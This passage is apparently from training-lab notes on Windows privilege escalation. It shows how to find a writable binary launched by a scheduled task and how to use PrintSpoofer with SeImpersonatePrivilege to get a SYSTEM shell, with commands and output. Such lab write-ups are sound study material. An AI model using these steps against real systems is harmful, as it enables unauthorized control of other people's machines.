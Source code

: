 ```shell
PS C:\Users\steve> schtasks /query /fo LIST /v

Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        7/11/2022 2:47:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/11/2022 2:46:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
```

Interestingly, the task was created by _daveadmin_ and the specified action is to execute **BackendCacheCleanup.exe** in the **Pictures** home directory of _steve_. In addition, the times from _Last Run Time_ and _Next Run Time_ indicate that the task is executed every minute. The task runs as user _daveadmin_. Since the executable file **BackendCacheCleanup.exe** is located in a subdirectory of the home directory of _steve_, we should have extensive permissions on it. Let's check our permissions on this file with **icacls**.

```shell
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)
```

We have permission so we can place a malicious binary file

#### Kernel Exploits

Privileges that may lead to privilege escalation are _SeBackupPrivilege_, _SeAssignPrimaryToken_, _SeLoadDriver_, and _SeDebug_. We will be abusing SeImpersonatePrivilege.

```
C:\Users\dave> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeSecurityPrivilege           Manage auditing and security log          Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

PS C:\Users\dave> .\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
nt authority\system
```
